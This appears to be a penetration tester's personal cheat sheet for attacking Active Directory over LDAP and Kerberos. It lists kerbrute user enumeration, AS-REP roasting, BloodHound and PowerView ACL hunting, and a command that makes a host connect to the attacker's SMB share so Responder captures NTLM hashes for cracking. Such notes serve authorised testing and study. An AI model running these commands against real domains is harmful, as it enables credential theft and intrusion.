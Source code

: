 # ldap - Enumeration

## Sync time with kerberos

To figure out the difference in time with the kerberos server:

   sudo ntpdate 10.129.127.130

To simulate the difference in time when executing a command:

   faketime -f '+7h' <command>

## Use ldapdomaindump

https://github.com/Andre92Marcos/tools/tree/master/ldapDomainDump

## Use netexec

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md#ldap


## When we have a domain username, but no password

Do a gci request to get the user hash (and use it in other protocols, and try to crack it), with responder running

   gci \\<mylocalhostip>\share\file #share and file dont have to exist

Run impacket-GetNPUsers

   https://github.com/Andre92Marcos/tools/blob/master/impacket/getNPUsers.md

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


Use the snaffler tool


## Enumerate users found to see if they pre authenticate to kerberos

   kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <filename_with_usernames>

## If we can make the target make a smb request back to us

   For example using sqlinjection, we can use responder to get hash and try to crack it
   https://github.com/Andre92Marcos/tools/tree/master/responder


## If we are not finding anythin with bloodhound

Load powesploit PowerView.ps1 from:

   https://github.com/PowerShellMafia/PowerSploit/tree/dev

And then run 

   Find-InterestingDomainAcl -ResolveGUIDS | ConvertTo-Json

This might find relations that bloodhound missed